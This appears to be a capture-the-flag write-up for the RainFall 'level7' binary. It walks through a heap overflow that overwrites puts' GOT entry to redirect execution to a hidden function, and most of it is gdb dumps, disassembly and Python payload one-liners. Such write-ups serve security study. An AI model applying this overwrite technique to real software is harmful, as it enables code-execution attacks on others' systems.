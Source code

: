 Heap exploit


TLDR

```
    malloc1 = malloc(8) // 0x0804a008
    malloc1[0] = 1
    malloc1[1] = malloc(8) // 0x0804a018

    malloc2 = malloc(8) // 0x0804a028
    malloc2[0] = 2
    malloc2[1] = malloc(8) // 0x0804a038

    strcpy(mOne[1], argv[1])
    strcpy(mTwo[1], argv[2])
    
    
    movl $0x1, (%eax)
    The instruction moves the value 0x1 into the memory location pointed to by the %eax.
    (%eax) ==> memory reference.
    
    0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
    0x08048536 <+21>:	mov    %eax,0x1c(%esp)
    0x0804853a <+25>:	mov    0x1c(%esp),%eax
    0x0804853e <+29>:	movl   $0x1,(%eax)         malloc1[0] = 1
    
    0x08048544 <+35>:	movl   $0x8,(%esp)
    0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
    0x08048550 <+47>:	mov    %eax,%edx
    0x08048552 <+49>:	mov    0x1c(%esp),%eax
    0x08048556 <+53>:	mov    %edx,0x4(%eax)       *malloc1 + 4 = malloc1[1] = edx = allcated
    
    after last strcpy
    
    b *main+161
    
    
```



```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"

```
(gdb) x 0x8049960
0x8049960 <c>:	 ""
  
(gdb) p 0x44
$6 = 68
  
(gdb) x 0x8048703
0x8048703:	 "~~"
```
  
```
(gdb) run "AAAABBBBCCCCDDDD" "ZZZZ1111"

(gdb) x/60wx 0x804a000
  
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x00000000	0x0804a038
0x804a030:	0x00000000	0x00000011	0x5a5a5a5a	0x31313131

(gdb) p/c 0x5a = 'Z'
 
 argv1 write at the heap pointed by p/x 0x804a010+8 = 0x804a018
 argv2                              0x804a038

confirmed by ltrace

level7@RainFall:~$ ltrace ./level7 AAAAAAAA BBBBBBBB

  strcpy(0x0804a018, "AAAAAAAA")
  strcpy(0x0804a038, "BBBBBBBB")

 ```
  
  ```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
  
  (gdb) disass 0x8048400
    Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
  ```
  
  address of puts `0x8049928` and address of m() function `0x080484f4`
  
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
 Heap befor strcpy 1 
```
"--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038 
```
  Heap after strcpy 1
  ```
  "--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
```
after strcpy2
```
(gdb) disass 0x8048400
puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4

(gdb) x 0x080484f4
0x80484f4 <m>:	0x83e58955
```

  strcpy(0x0804a018, "AAAA")
  strcpy(0x0804a038, "BBBB")
  
  cpy whatever is in av1 into 018
  cpy whatever is in av2 into 038
  
  what we need is smthing like:
  
   strcpy(addr_of_puts, addr_of_m)
  
  address of puts `0x8049928` and address of m() `0x080484f4`
  
  so we need to slide addr of puts to overide the aadr malloced for arv2
  
```
  "-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	[av1_dest]
0x804a010:	0x00000000	0x00000011	[   av1  ]	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	[av2_dest]
0x804a030:	0x00000000	0x00000011	[   av2  ]	0x00000000
```
we want to achieve smthg like
```
0x804a000:	0x00000000	0x00000011	0x00000001	[av1_dest]
0x804a010:	0x00000000	0x00000011	[   av1  ]	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	[  puts  ]
0x804a030:	0x00000000	0x00000011	[     m  ]	0x00000000
```
to reach `puts` frm `av1` we need  `4*5 = 20`

payload:

  `( python -c 'print A*20 + puts' ) ( python -c 'print m' )`
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
  ```
  "-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0xfbad240c	0x00000000
```
  
  similar concept
  liveoverflow https://youtu.be/TfJrU95q1J4?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
